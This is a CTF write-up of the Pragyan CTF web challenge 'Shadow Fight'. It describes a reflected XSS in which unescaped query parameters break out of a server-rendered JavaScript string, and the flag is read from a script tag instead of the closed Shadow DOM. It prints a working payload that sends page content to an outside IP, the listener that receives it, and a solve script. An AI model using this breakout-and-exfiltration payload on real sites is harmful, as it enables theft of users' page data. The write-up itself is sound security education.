










# Shadow Fight - Pragyan CTF Web Writeup

**Category:** Web Exploitation (XSS)
**Difficulty:** Hard
**Points:** 406 (dynamic, started at 500)
**Flag:** `p_ctf{uRi_iz_js_db76a80a938a9ce3}`
**Solved by:** Smothy @ **0xN1umb** | FIRST BLOOD

---


> *"The best security filter is the one that never gets to run."*

---

## Challenge Description

> Do you know XSS?
>
> https://shadow-fight.ctf.prgy.in



A 500-point Web challenge that drops you on a "Profile Card Generator" and dares you to XSS it. The name is the hint — you're literally fighting a **closed Shadow DOM** to extract the flag. 5.0 stars, 3 ratings. And we got first blood on it. Let's gooo.

## TL;DR

Server renders user input directly into a JavaScript string with zero sanitization. A double-quote `"` breaks out of the string and gives full JS execution, completely bypassing the client-side `isSafe()` filter that blocks keywords like `document`, `fetch`, and `window`. The flag lives in a closed Shadow DOM, but we don't need to breach it — we just read the `<script>` tag's text content where the flag is server-rendered in plaintext. URI is JS. GG.

## Initial Recon

Hit the URL and we get a clean "Profile Card Generator" app. Enter a name and avatar URL, it generates a pretty profile card with a "Submit for Review" button that sends your profile to an admin bot.



Fill in a name and an avatar URL from an allowed domain (picsum, imgur, etc.) and you get a nice profile card:



First things first — **view source**. This is where things get interesting:



## Step 1: Source Code Analysis

The page loads `helpers.js` which has three functions:

```javascript
function validateName(input) {
  if (typeof input !== 'string') return false;
  if (input.length < 2 || input.length > 50) return false;
  return isSafe(input);
}

function validateAvatar(input) {
  // Must start with https:// and be from allowed domains
  const allowedDomains = ['picsum.photos', 'imgur.com', 'i.imgur.com', 'unsplash.com', 'pexels.com'];
  // ...
  return isSafe(input);
}

function isSafe(input) {
  const blockedWords = [
    "\"",            // prevent attribute escape
    '\n', '\r',
    'fetch', 'XMLHttpRequest', 'navigator', 'sendBeacon',
    'postMessage', 'location', 'document', 'window',
    'Function', 'constructor', 'import', '__proto__',
    'prototype', 'escape', 'from', 'char', 'atob', 'btoa'
  ];
  // ... case-insensitive matching
  return true;
}
```

That's a **chunky blocklist** — `document`, `fetch`, `window`, `"` — basically everything you'd need for XSS. Plus URL-encoded newlines and hex escapes are blocked.

Looks solid... until you realize it's **100% client-side**.


## Step 2: The Breakthrough — Zero Server-Side Sanitization

The page HTML has two inline `<script>` blocks. The second one contains:

```html
<script>
  const name = "";       <!-- Server renders GET ?name= directly here -->
  const avatar = "";     <!-- Server renders GET ?avatar= directly here -->
  const nameIsValid = name && validateName(name);
  const avatarIsValid = avatar && validateAvatar(avatar);
  // ...
  nameEl.innerHTML = name;  // XSS sink
</script>
```

When you send `?name=test`, the server renders `const name = "test";`. What happens with `?name=test"hello`?

```javascript
const name = "test"hello";  // JavaScript syntax error — string broken!
```

**The server performs absolutely NO escaping.** Raw input goes straight between double quotes.



When we inject `";EVIL_CODE//`, the rendered JavaScript becomes:

```javascript
const name = "";EVIL_CODE//";
```

Our code runs **immediately** — before `validateName()`, before `isSafe()`, before anything. The entire client-side filter is decorative. We have unrestricted JavaScript execution with full access to `document`, `fetch`, `window`, the whole kitchen sink.

For the homies who haven't done XSS before: the validation code is *below* our injection point in the same script block. By the time JavaScript would reach `validateName()`, our malicious code has already executed. And since `name` is now `""` (empty string), the `name && validateName(name)` short-circuits on the falsy empty string — `isSafe()` is never even called.


## Step 3: The Shadow DOM — Why "Shadow Fight"

The first `<script>` block creates a **closed Shadow DOM** containing the flag:

```javascript
(function() {
  const container = document.createElement('div');
  container.id = 'secret';
  const shadow = container.attachShadow({ mode: 'closed' });
  shadow.innerHTML = '<p style="opacity: 0;">p_ctf{redacted-no-admin}</p>';
  document.querySelector('.card').appendChild(container);
})();
```

The text `p_ctf{redacted-no-admin}` tells us: the real flag is only rendered when the **admin bot** visits the page. On the admin's browser, this would contain the actual flag.

Closed Shadow DOM means:
- `element.shadowRoot` returns `null`
- CSS selectors can't reach inside
- `TreeWalker` doesn't cross the boundary
- No external JS API to query closed shadow content

Sounds scary. But here's the twist...



The flag is **also sitting right in the `<script>` tag's source text**. When the admin visits, the server renders the real flag into the inline script. And `document.scripts[1].textContent` gives us the full text content of that script block — flag included.

**We bypass the Shadow DOM entirely.** No need to breach the closed shadow root when the blueprint is readable. The shadow was a red herring — the real fight was never with the DOM.

## Step 4: Building the Exploit

**Set up the exfiltration listener** on our VPS:

```python
# listener.py on VPS (89.42.88.18:9999)
import http.server, socketserver

class H(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        with open("/tmp/exfil.log", "a") as f:
            f.write(self.path + "\n")
        self.send_response(200)
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()
        self.wfile.write(b"ok")

with socketserver.TCPServer(("", 9999), H) as s:
    s.serve_forever()
```

**The payload:**

```
";new Image().src="http://89.42.88.18:9999/?f="+encodeURIComponent(document.scripts[1].textContent)//
```



Breaking it down:
- `"` — closes the JS string
- `;` — statement separator
- `new Image().src=...` — fires HTTP request to our VPS (no CORS needed for Image)
- `document.scripts[1].textContent` — reads inline script source containing the flag
- `encodeURIComponent(...)` — URL-encodes for safe transport
- `//` — comments out the trailing `";`

No CSP header on the response. No restrictions on outbound requests. Clean shot.

## Step 5: Firing the Shot

Submit the crafted URL to the admin bot:

```python
import requests

payload = '";new Image().src="http://89.42.88.18:9999/?f="+encodeURIComponent(document.scripts[1].textContent)//'

r = requests.post(
    'https://shadow-fight.ctf.prgy.in/review',
    params={'name': payload, 'avatar': 'https://picsum.photos/100'}
)
print(r.text)  # "We'll review your profile soon!"
```

10 seconds later, the VPS log lights up:

```
/?f=%0A%20%20%20%20%20%20(function()%20%7B%0A%20%20%20%20%20%20%20%20const%20
container%20%3D%20document.createElement(%27div%27)%3B%0A%20...%20shadow.innerHTML
%20%3D%20%27%3Cp%20style%3D%22opacity%3A%200%3B%22%3E
p_ctf%7BuRi_iz_js_db76a80a938a9ce3%7D%3C%2Fdiv%3E%27%3B...
```

URL-decode and...


```
shadow.innerHTML = '<p style="opacity: 0;">p_ctf{uRi_iz_js_db76a80a938a9ce3}</div>';
```

## The Flag



```
p_ctf{uRi_iz_js_db76a80a938a9ce3}
```

**`uRi_iz_js`** = **"URI is JS"** — the URL itself IS the exploit. The flag name is a direct reference to the attack vector: the URI query parameters become executable JavaScript because the server doesn't sanitize. Chef's kiss.

## First Blood



**0xN1umb** — February 6th, 7:18:32 AM. First solve, 14 minutes before the second team.



Three first bloods in a row. Shadow Fight, Note Keeper, Talking Mirror. We were built different that morning.

## The Solve Script

```python
"""
Shadow Fight - Pragyan CTF 2026
XSS via server-side template injection + Shadow DOM flag extraction
FIRST BLOOD - Solved by: Smothy @ 0xN1umb
"""
import requests
import urllib.parse

VPS = "89.42.88.18"
PORT = 9999
TARGET = "https://shadow-fight.ctf.prgy.in"

# Payload: break out of JS string, read script source, exfiltrate via Image
payload = (
    f'";new Image().src="http://{VPS}:{PORT}/?f="'
    f'+encodeURIComponent(document.scripts[1].textContent)//'
)

# Submit to admin bot
r = requests.post(
    f'{TARGET}/review',
    params={'name': payload, 'avatar': 'https://picsum.photos/100'}
)
print(f"[*] Submitted: {r.text}")
print(f"[*] Check VPS listener at {VPS}:{PORT} for the flag")
```

## The Graveyard of Failed Attempts


Honestly? There wasn't much graveyard on this one. The recon was fast:

1. **View source** — saw the server-rendered template with no escaping
2. **Tested `"` in name param** — confirmed JS string breakout
3. **Checked response headers** — no CSP, no sanitization
4. **Identified flag location** — in `<script>` textContent, not just Shadow DOM
5. **Sent payload** — flag in 10 seconds

The challenge *wanted* you to think the hard part was breaking the closed Shadow DOM. But the real vulnerability was upstream — the server template. Once you realize the flag is in the script source (not just the rendered DOM), the Shadow DOM is irrelevant.

Total time from first look to flag: **~15 minutes**. Speed is what gets you first blood.

## Key Takeaways

1. **Client-side security is not security** — If the server renders unsanitized input into executable context, no amount of client-side filtering matters. The code runs before the filter even loads.

2. **Template injection > DOM XSS** — This isn't a DOM XSS where `innerHTML` is the sink. The real vulnerability is the server templating raw user input into a `<script>` block. The `innerHTML` sink was a decoy.

3. **Closed Shadow DOM != secret data** — If the sensitive data is present in the script source (which it has to be, since JS creates the shadow DOM), you can read it from `<script>.textContent`. The shadow root is just the rendered output; the source code is still accessible.

4. **Always read the full source** — Don't just look at the DOM. `document.scripts[N].textContent` gives raw inline script source. Different access vector, same data.

5. **Flag names are hints** — `uRi_iz_js` literally tells you the attack: the URI parameters become JavaScript.

## Tools Used

- `curl` — initial recon and source analysis
- `python3` + `requests` — payload delivery
- Simple Python HTTP server — exfiltration listener
- A VPS with a public IP — catching the callback
- Way too much caffeine at 7 AM

---

*Writeup by **Smothy** from **0xN1umb** team.*
*The shadow never stood a chance when the blueprints were left on the table. First blood, three in a row. GG.*


